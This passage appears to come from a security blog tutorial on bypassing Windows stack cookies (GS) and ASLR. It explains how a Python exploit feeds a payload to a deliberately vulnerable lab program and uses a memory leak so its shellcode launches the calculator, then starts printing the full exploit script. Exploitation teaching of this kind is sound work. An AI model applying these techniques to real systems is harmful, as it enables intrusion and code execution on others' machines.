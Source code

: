 `create_payload` returns the exploit string to variable `payload`.  This is sent to the running program through its stdin pipe with a newline appended.

```python
p.stdin.write(payload + "\n")
```

This is the end of the exploit's core functionality.  The full code with comments and a demo is posted below.

### Demo

This article and the demo are all available on GitHub.

The purpose of this exploit is to make the application run our shellcode which executes an arbitrary command.  In this case, the program runs Calc.exe which is Windows calculator app.  The exploit bypasses ASLR and GS by leveraging a memory disclosure in the program to obtain the cookie and stack pointer address.  Note that after determining the index of addresses in the memleak output, this exploit will continuously succeed on each run.

See below screenshot when the exploit is executed successfully.  

<a href="{{ site.baseurl }}/images/calc.PNG">
<img class="img-center" src="{{ site.baseurl }}/images/calc.PNG">
</a>

And a video of the exploit on my desktop.

<video controls>
  <source src="{{ site.baseurl }}/images/video/vuln-demo.mp4" type="video/mp4">
  Your browser does not support the video tag.
</video>

## Full Python Code

###### <i class="fab fa-github-square fa-fw"></i> [Click here for code repo](https://github.com/c1arissa/windows_exploitation/tree/master/part1)
###### <i class="far fa-file-archive fa-fw"></i> [Download Zip Archive]({{ site.author.github }}/windows_exploitation/archive/master.zip)

```python
"""
  gs_exploit.py
  Windows Modern Exploitation Blog Post
  Part 1: Stack Cookie (GS) Bypass
  Written by Clarissa https://clarissapodell.com

  The target program should be compiled with the command:
  C:\\> cl /Zi vuln.c /link /NXCOMPAT:NO
"""

from subprocess import *
from struct import pack
import time
import sys


def print_banner():
  ''' Prints a banner message at the top of the terminal '''

  print """
    -------------------------------------------------------------
    # Windows Exploitation Part 1: Stack Cookie (GS) Bypass     #
    # by clarissapodell on 7/12/2018                            #
    # tested on Windows 10 x64, compiled as x86 32-bit process  #
```